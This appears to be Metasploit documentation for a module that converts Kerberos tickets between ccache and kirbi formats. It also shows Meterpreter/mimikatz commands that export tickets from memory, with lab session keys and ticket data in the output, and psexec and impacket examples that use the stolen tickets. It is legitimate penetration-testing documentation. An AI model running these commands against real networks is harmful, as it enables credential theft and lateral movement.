 ## Converting Kerberos Tickets

The `auxiliary/admin/kerberos/ticket_converter` module is used to convert from a ccache file format to the kirbi file format and vice versa.
The main reason you may want to convert between these file types is for use in different tools.
For example mimikatz will create tickets for you in the kirbi format but to use that in another tool
like Metasploit or Impacket you need to convert it to the ccache format first.

## Acquiring tickets

Kerberos tickets can be acquired from multiple sources. For instance:

- Retrieved directly from the KDC with the `get_ticket` module
- Forged using the `forge_ticket` module after compromising the krbtgt or a service account's encryption keys
- Extracted from memory using Meterpreter and mimikatz:

```
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.

meterpreter > kiwi_cmd "sekurlsa::tickets /export"

Authentication Id : 0 ; 1393218 (00000000:00154242)
Session           : Network from 0
User Name         : DC3$
Domain            : DEMO
Logon Server      : (null)
Logon Time        : 1/12/2023 9:11:00 PM
SID               : S-1-5-18

	 * Username : DC3$
	 * Domain   : DEMO.LOCAL
	 * Password : (null)

	Group 0 - Ticket Granting Service

	Group 1 - Client Ticket ?
	 [00000000]
	   Start/End/MaxRenew: 1/12/2023 7:41:41 PM ; 1/13/2023 5:37:45 AM ; 1/1/1601 12:00:00 AM
	   Service Name (02) : LDAP ; DC3 ; @ DEMO.LOCAL
	   Target Name  (--) : @ DEMO.LOCAL
	   Client Name  (01) : DC3$ ; @ DEMO.LOCAL
	   Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
	   Session Key       : 0x00000012 - aes256_hmac
	     ab64d555f18de6a3262d921e6dc75dcf884852f551db3114f7983dbaf276e1d6
	   Ticket            : 0x00000012 - aes256_hmac       ; kvno = 7	[...]
====================
Base64 of file : [0;154242]-1-0-40a50000-DC3$@LDAP-DC3.kirbi
====================
doQAAAYXMIQAAAYRoIQAAAADAgEFoYQAAAADAgEWooQAAAS2MIQAAASwYYQAAASq
MIQAAASkoIQAAAADAgEFoYQAAAAMGwpBREYzLkxPQ0FMooQAAAAmMIQAAAAgoIQA
AAADAgECoYQAAAARMIQAAAALGwRMREFQGwNEQzOjhAAABFcwhAAABFGghAAAAAMC
... etc...
====================
```

Note that tools often Base64 encode the Kirbi content to display to the user. However the `inspect_ticket` module expects
the input file to be in binary format. To convert base64 strings to binary files:

```
# Linux
cat ticket.b64 | base64 -d > ticket.kirbi

# Mac
cat ticket.b64 | base64 -D > ticket.kirbi

# Powershell
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<bas64_ticket>"))
```

## Module usage

1. Start msfconsole
2. Do: `use auxiliary/admin/kerberos/ticket_converter`
3. Do: `set InputPath /path/to/ccache/or/kirbi/file`
4. Do: `set OutputPath /path/to/save/your/converted/file`
5. Do: `run`
6. You should see output similar to:
   ```
   [*] [2022.12.16-12:52:56] Converting from ccache to kirbi
   [*] [2022.12.16-12:52:56] File written to <OutputPath>
   [*] Auxiliary module execution completed
   ```
7. Your converted ticket which will have been stored at `OutputPath`
8. Example usage in Metasploit:
   ```
   use windows/smb/psexec
   run rhost=192.168.123.13 username=Administrator domaincontrollerrhost=192.168.123.1 smb::auth=kerberos smb::rhostname=host.demo.local smbdomain=demo.local smbkrb5ccname=/path/to/ccache/ticket 
   ```
9. Example usage in impacket:
   ```
   export KRB5CCNAME=/path/to/ccache/ticket
   python3 mssqlclient.py DW.LOCAL/fake_mysql@dc1.dw.local -k -no-pass
   ```
10. You may use the `inspect_ticket` module to prints the contents of the ccache/kirbi file:
   `use auxiliary/admin/kerberos/inspect_ticket`

## Scenarios

### You have a ccache file

If you have a ccache file, for example by forging it using the `auxiliary/admin/kerberos/forge_ticket` module,
but need a file in the kirbi format which is commonly used by mimikatz.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.ccache outputpath=metasploit_ticket.kirbi

[*] [2023.01.05-17:01:02] Converting from ccache to kirbi
[*] [2023.01.05-17:01:02] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.kirbi
[*] Auxiliary module execution completed
```

### You have a kirbi file

The other scenario is if you have a kirbi file, for example tools such as mimikatz will give you tickets in the kirbi format,
and you need a ccache for use with another tool such as Metasploit and Impacket.

The steps are exactly the same for a kirbi file as they are for a ccache as Metasploit will automatically detect the input file type.

Set the `InputPath` to the location of your ccache file, specify your desired output location with `OutputPath` and `run`.
Metasploit will automatically detect the file type so there's no need to tell msfconsole whether it's a ccache or kirbi file.

Example:
```
msf6 auxiliary(admin/kerberos/ticket_converter) > run inputpath=metasploit_ticket.kirbi outputpath=metasploit_ticket.ccache

[*] [2023.01.05-17:01:39] Converting from kirbi to ccache
[*] [2023.01.05-17:01:39] File written to /Users/dwelch/dev/metasploit-framework/metasploit_ticket.ccache
[*] Auxiliary module execution completed
```

